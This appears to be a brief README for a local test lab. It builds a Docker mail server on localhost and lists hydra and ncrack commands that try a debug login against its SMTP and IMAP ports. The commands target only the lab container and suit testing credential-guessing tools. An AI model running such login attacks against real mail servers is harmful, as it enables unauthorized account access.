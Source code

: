 # Docker

sudo docker build -t mail-server .
sudo docker run -ti -p 127.0.0.1:25:25 -p 127.0.0.1:143:143 -p 127.0.0.1:993:993 mail-server

# Attack

## stmp
hydra -l 'debug@localdomain.test' -p 'debug'  -V -s 25 127.0.0.1 smtp

## imap
ncrack imap://172.17.0.2:993 -m imap --user 'debug@localdomain.test' --pass 'debug' -g ssl
hydra -l 'debug@localdomain.test' -p 'debug' 127.0.0.1 imap -S
